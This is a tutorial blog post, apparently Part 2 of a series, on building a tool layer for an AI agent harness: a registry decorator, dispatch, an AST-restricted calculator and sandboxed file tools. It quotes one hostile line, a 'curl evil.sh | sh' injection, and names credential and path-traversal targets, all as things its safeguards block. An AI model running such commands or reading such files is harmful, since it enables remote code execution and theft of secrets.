





In [Part 1](/posts/building-an-ai-agent-from-scratch-part-1-what-even-is-an-agent-harness/) we established the simple truth: **LLMs can only produce text.** The harness is the babysitter that turns that text into action.

Today we build the action part. The tools. The hands.

This is the fun chapter, by which I mean it's the one where we voluntarily give a probabilistic text generator the ability to touch the filesystem and then act surprised when it tries to read `/etc/passwd`. All the code below is lifted straight from [the repo](https://github.com/kenkitts/bedrock-agent-harness) — a single `agent.py` file you can clone and run. Strap in.

## A Tool Is Two Things

Strip away the hype and a tool is rather simple. It's two things:

1. A **description** — name, what it does, what arguments it takes. This is for the *model*. It's a menu.
2. An **implementation** — the actual Python function. This is for *your code*. It's the kitchen.

The model reads the menu and points. Your code goes into the kitchen and cooks. The model never sets foot in the kitchen, which is good, because the model thinks a stack trace is a type of pancake.



The single most annoying bug in agent development is when these two drift apart. You update the function to take a new argument, forget to update the description, and now the model calls your tool with the wrong shape. It fails. It tries again. Identically. Forever. Like a moth headbutting a porch light, except the porch light bills you per token.

So our first job is making drift *hard*.

## The Registry: One Decorator, Three Bookkeeping Structures

I promised you a decorator pattern in Part 1. Here's the real one. The idea: define a function and its schema in the **same place**, and register both the moment the file loads.

```python
_TOOL_SPECS = []          # tool *descriptions* sent to the model
_TOOL_FUNCS = {}          # name -> the real Python function
_STATEFUL_TOOLS = set()   # names of tools that need per-session state

def tool(name, description, input_schema, stateful=False):
    """Register a function as a Bedrock-callable tool."""
    def decorator(func):
        _TOOL_SPECS.append(
            {
                "toolSpec": {
                    "name": name,
                    "description": description,
                    "inputSchema": {"json": input_schema},
                }
            }
        )
        _TOOL_FUNCS[name] = func
        if stateful:
            _STATEFUL_TOOLS.add(name)
        return func
    return decorator
```

Three structures, one decorator. People sell courses on this.

A couple of deliberate choices worth calling out:

- **The `name` is explicit**, not `func.__name__`. The model-facing tool name is decoupled from your Python identifier — rename the function freely without breaking the model's mental model.
- **The schema is hand-written**, passed straight in as `input_schema`. Auto-generating JSON Schema from type hints is a real temptation, but it's deferred to v2 in this project. v1 keeps the schema explicit and co-located, which is enough to kill drift: you physically cannot edit the function without staring at its schema two lines up.
- **`{"toolSpec": ...}` and `{"json": input_schema}`** are the envelopes Bedrock's Converse API insists on. Every API has one weird ritual. This is theirs.

The `input_schema` itself is just [JSON Schema](https://json-schema.org/) — the model reads it to figure out what arguments to send.

## Describing Tools to the Model

The model can't use a tool it doesn't know exists. So before each request, we hand Bedrock the whole menu via the `toolConfig` parameter:

```python
def get_tool_config():
    """Bundle all tool descriptions into the Converse toolConfig payload."""
    return {"tools": _TOOL_SPECS}
```

That's it. Add a new `@tool`, and it shows up on the menu automatically. The loop doesn't change. The config doesn't change. You write a function and the agent gets smarter, or at least more dangerous.



## Dispatch: Doing What You're Told (and Refusing What You Can't)

When the model decides it wants a tool, Bedrock returns a response with `stopReason == "tool_use"` and one or more content blocks, each carrying a `toolUseId`, a tool `name`, and an `input` dict.

The dispatcher looks the name up and calls the function. It has no opinions and no ambition, which makes it the most reliable employee you will ever have.

```python
def dispatch_tool(name, tool_input, ctx=None):
    func = _TOOL_FUNCS.get(name)
    if func is None:
        raise ValueError(f"Unknown tool: {name}")  # model hallucinated a tool

    args = tool_input or {}
    if name in _STATEFUL_TOOLS:
        if ctx is None:
            raise ValueError(f"Tool '{name}' requires session context but none was provided")
        return func(ctx, **args)   # stateful: gets the Session first
    return func(**args)            # plain: just the JSON args
```

Notice it *raises* on an unknown tool rather than returning an error. That's intentional, because of how the loop treats failure — which is the single most important pattern in the whole harness:

> A tool failure is just more text for the model to read.

Here's the relevant slice of the loop. Every tool call is wrapped, and **any** exception becomes a `toolResult` with `status: "error"`:

```python
try:
    result = dispatch_tool(name, tool_input, ctx)
    status = "success"
    content = [{"text": str(result)}]
except Exception as e:
    status = "error"
    content = [{"text": f"Error: {e}"}]

tool_result_blocks.append(
    {"toolResult": {"toolUseId": tool_use_id, "content": content, "status": status}}
)
```

The model divides by zero? Catch it, hand back `"Error: ..."`, and the model goes "ah, my mistake" and adjusts. It invents a tool named `do_the_needful`? `dispatch_tool` raises `Unknown tool`, that becomes an error block, and the model feels a flicker of shame and tries something real. If you let exceptions propagate and kill the loop instead, you've built a very expensive way to print a stack trace. Errors are feedback, not funerals.



## The Tools Themselves

Let's build them, in order of increasing danger — like a cooking show that ends with knife juggling.

### get_current_time — Harmless

The model can't read a clock. It will *guess* the time, confidently, and be wrong by anywhere from minutes to years. So we give it a watch.

```python
@tool(
    name="get_current_time",
    description="Get the current local date and time in ISO 8601 format.",
    input_schema={"type": "object", "properties": {}, "required": []},
)
def get_current_time():
    return datetime.now().astimezone().isoformat()
```

No arguments. No risk. The most well-adjusted tool in the registry. We will not see its kind again.

### calculator — Mostly Harmless (If You're Careful)

You'd think math is safe. You'd be wrong, because the lazy implementation is `eval()`, and `eval()` on model-generated input is how you wake up to a cryptominer named after a Pokémon. So instead of evaluating the string, we **parse it into an AST and walk it**, allowing only arithmetic nodes:

```python
_ALLOWED_BINOPS = {
    ast.Add: operator.add, ast.Sub: operator.sub,
    ast.Mult: operator.mul, ast.Div: operator.truediv,
    ast.FloorDiv: operator.floordiv, ast.Mod: operator.mod,
    ast.Pow: operator.pow,
}
_ALLOWED_UNARYOPS = {ast.UAdd: operator.pos, ast.USub: operator.neg}

def _safe_eval(node):
    if isinstance(node, ast.Expression):
        return _safe_eval(node.body)
    if isinstance(node, ast.Constant):
        if isinstance(node.value, (int, float)) and not isinstance(node.value, bool):
            return node.value
        raise ValueError(f"Unsupported constant: {node.value!r}")
    if isinstance(node, ast.BinOp):
        return _ALLOWED_BINOPS[type(node.op)](_safe_eval(node.left), _safe_eval(node.right))
    if isinstance(node, ast.UnaryOp):
        return _ALLOWED_UNARYOPS[type(node.op)](_safe_eval(node.operand))
    raise ValueError(f"Unsupported expression element: {type(node).__name__}")
```

Any node type we didn't explicitly allow — function calls, attribute access, names — falls through to `raise`. No `__import__('os').system('curl evil.sh | sh')` cosplaying as a math problem. The model gets to add numbers and nothing else, which is exactly as much trust as it has earned.

### Stateful tools: create_plan, update_task, view_plan

Some tools need to *remember* things across calls. The planning tools let the model lay out a checklist and tick it off — but a checklist is useless if it evaporates between tool calls. So these tools are marked `stateful=True` and receive the session as their first argument:

```python
@tool(
    name="create_plan",
    description="Break a multi-step task into an ordered list of steps. Call this "
                "FIRST for any request that needs more than one action.",
    input_schema={
        "type": "object",
        "properties": {
            "steps": {"type": "array", "items": {"type": "string"},
                      "description": "Ordered list of step descriptions."}
        },
        "required": ["steps"],
    },
    stateful=True,
)
def create_plan(ctx, steps):
    ctx.plan = [Task(i, desc) for i, desc in enumerate(steps, 1)]
    return "Plan created:\n" + ctx.render_plan()
```

That `ctx` is a per-session `Session` object holding the conversation history *and* the plan. Plain tools never see it; stateful tools get it injected by `dispatch_tool` (that `_STATEFUL_TOOLS` set from earlier). It's the difference between a tool that computes and a tool that *accumulates*. We'll dig into the Session object — and the "soft termination guard" that nudges the model when it tries to declare victory with steps still unfinished — in Part 3. For now, just note the mechanism: **one flag on the decorator decides whether a tool gets memory.**

### read_file, write_file, list_dir — Here There Be Dragons

Now the dangerous ones. Giving a model filesystem access is like giving a monkey a machine gun: technically it has no training on gun use, but you will be amazed and horrified at what it attempts. Same goes for humans.

The naive `open(path).read()` is a disaster waiting to happen — the model asks to read `../../../../etc/passwd`, or `~/.ssh/id_rsa`, and your "helpful blog assistant" is now a confused, well-meaning exfiltration tool. The model isn't malicious. It's worse than malicious. It's *helpful* and has no concept of consequences.

So confinement is **structural, not advisory**. Every path is resolved to a real absolute path and rejected if it lands outside the sandbox:

```python
SANDBOX_ROOT = "agent_workspace"

def _sandbox_root():
    root = os.path.realpath(SANDBOX_ROOT)
    os.makedirs(root, exist_ok=True)
    return root

def _resolve_in_sandbox(path):
    root = _sandbox_root()
    candidate = os.path.realpath(os.path.join(root, path))
    # os.path.join discards `root` if `path` is absolute, so absolute inputs
    # resolve outside the sandbox and get caught right here.
    if candidate != root and not candidate.startswith(root + os.sep):
        raise ValueError(f"Path escapes the sandbox workspace: {path!r}")
    return candidate
```

The load-bearing move is `os.path.realpath`: it collapses `..` and **follows symlinks** before we check. So `../../etc/passwd`, an absolute `/etc/passwd`, and a symlink pointing out of the sandbox all resolve to a real path that fails the `startswith` check. The model gets a `ValueError`, that goes back as text (errors are feedback), and the model, politely told no, moves on with its little artificial life.

`read_file` adds two more guards — a size cap and an encoding check — because "read a file" shouldn't mean "stream me a 4 GB binary":

```python
@tool(
    name="read_file",
    description="Read a UTF-8 text file from the workspace. The path is relative to "
                "the sandboxed workspace.",
    input_schema={
        "type": "object",
        "properties": {"path": {"type": "string", "description": "Workspace-relative file path."}},
        "required": ["path"],
    },
)
def read_file(path):
    target = _resolve_in_sandbox(path)
    if not os.path.isfile(target):
        raise ValueError(f"No such file: {path}")
    if os.path.getsize(target) > MAX_READ_BYTES:        # default 64 KB
        raise ValueError("File too large")
    try:
        with open(target, "r", encoding="utf-8") as f:
            return f.read()
    except UnicodeDecodeError:
        raise ValueError("File is not valid UTF-8 text")
```

`write_file` is where it gets genuinely interesting. Reading is one thing; letting a language model *create files on your disk* is another. So writes are gated by a **confirm-once-per-session** prompt — and because that gate state has to persist across calls, `write_file` is stateful:

```python
@tool(name="write_file", description="...", input_schema={...}, stateful=True)
def write_file(ctx, path, content):
    if not ctx.writes_approved:                      # the FIRST write asks a human
        answer = input(f"Allow file writes to '{SANDBOX_ROOT}/' for this session? [y/N] ")
        if answer.strip().lower() not in ("y", "yes"):
            raise ValueError("User denied file-write permission.")  # model sees this
        ctx.writes_approved = True
    target = _resolve_in_sandbox(path)
    os.makedirs(os.path.dirname(target), exist_ok=True)
    with open(target, "w", encoding="utf-8") as f:
        f.write(content)
    return f"Wrote {len(content)} characters to {os.path.relpath(target, _sandbox_root())}"
```

A human approves the first write of the session; subsequent writes proceed. Deny it, and — you guessed it — the refusal becomes a tool error the model has to live with. (`list_dir` rounds out the trio: same sandbox resolution, lists a directory, marks folders with a trailing `/`. Harmless by comparison.)



## The Security Reality Nobody Puts in the Demo

Here it is, said plainly:

> **The model decides which tools run, and with what arguments. You decide what's actually possible.**

That sentence is the entire security model of every AI agent on earth. Every framework, every "autonomous" startup, every breathless LinkedIn post — underneath it all, *something* either sandboxed the tools or didn't. There is no third option. There is no clever prompt that fixes an unsandboxed `os.system`. "Please don't read sensitive files" is not an access control policy. It's a prayer, and the model is an amoral atheist.

Your guardrails do not live in the prompt — they live in the **code that runs the tool**: the AST walk in `calculator`, the `realpath` check in `_resolve_in_sandbox`, the confirm-once gate in `write_file`. Validate inputs. Constrain scope. Resolve paths before you trust them. Assume every tool call is the model handing you a knife and asking you to hold it by the blade.

## What We've Got

Wire it all together and the picture from Part 1 fills in:



A decorator that kills schema drift. A dispatcher that raises instead of crashing. Stateful tools that get memory from one flag. And a filesystem toolset where confinement is structural, not a polite request. One inviolable rule underneath all of it: **the model proposes, the code disposes.**

## What's Next

In Part 3, we get into **session state and the plan** — that `Session` object, why the agent re-injects the checklist into every request, the soft termination guard that won't let the model fake "done," and the slow financial bleed of a chatbot with a perfect memory and no sense of thrift. Memory is a feature and a liability, and the bill arrives either way.

---

*This is Part 2 of a series on building an AI agent harness from scratch using Python and Amazon Bedrock. [Grab the code](https://github.com/kenkitts/bedrock-agent-harness) and run it yourself — sandbox included, so you can hand the model a knife in the safety of your own workspace.*
